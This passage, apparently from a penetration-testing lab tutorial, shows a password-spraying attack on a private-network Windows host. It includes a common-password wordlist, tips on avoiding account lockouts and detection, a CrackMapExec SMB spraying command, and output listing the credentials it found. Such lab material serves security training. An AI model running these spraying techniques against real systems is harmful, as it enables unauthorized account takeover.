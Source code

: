 ```bash
Password1
Password123
Password123!
Welcome1
Welcome123
Welcome2025
Spring2025!
Summer2025!
Administrator123
Developer123!
Helpdesk123
Debugger123!
Qwerty123
Passw0rd
P@ssw0rd
EOF
```

**Password Pattern Logic**:
- Season+Year: `Spring2025!`, `Summer2025!`
- Role+Number: `Administrator123`, `Developer123!`
- Keyboard walks: `Qwerty123`
- Leetspeak: `P@ssw0rd`
- Common bases: `Password`, `Welcome`

### Step 2.2: Password Spraying Attack

#### Understanding Password Spraying

**Why Password Spraying > Brute Force**:
- Avoids account lockouts (trying many users with few passwords)
- More likely to succeed (users choose common passwords)
- Stealthier (distributed login attempts)

```bash
# SMB password spraying with CrackMapExec
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 192.168.148.102 -u users.txt -p passwords.txt --continue-on-success
```

**Expected Output**:
```
SMB  192.168.148.102  445  DESKTOP-TEI5A1Q  [-] DESKTOP-TEI5A1Q\Administrator:Password1 STATUS_LOGON_FAILURE
SMB  192.168.148.102  445  DESKTOP-TEI5A1Q  [-] DESKTOP-TEI5A1Q\Administrator:Password123 STATUS_LOGON_FAILURE
SMB  192.168.148.102  445  DESKTOP-TEI5A1Q  [+] DESKTOP-TEI5A1Q\jsmith:Welcome1
SMB  192.168.148.102  445  DESKTOP-TEI5A1Q  [+] DESKTOP-TEI5A1Q\mjones:Password1
SMB  192.168.148.102  445  DESKTOP-TEI5A1Q  [+] DESKTOP-TEI5A1Q\localadmin:Administrator123
SMB  192.168.148.102  445  DESKTOP-TEI5A1Q  [+] DESKTOP-TEI5A1Q\helpdesk:Helpdesk123
```

**Found Credentials**:
- `jsmith:Welcome1` ✓
- `mjones:Password1` ✓
- `localadmin:Administrator123` ✓ (likely admin!)
- `helpdesk:Helpdesk123` ✓
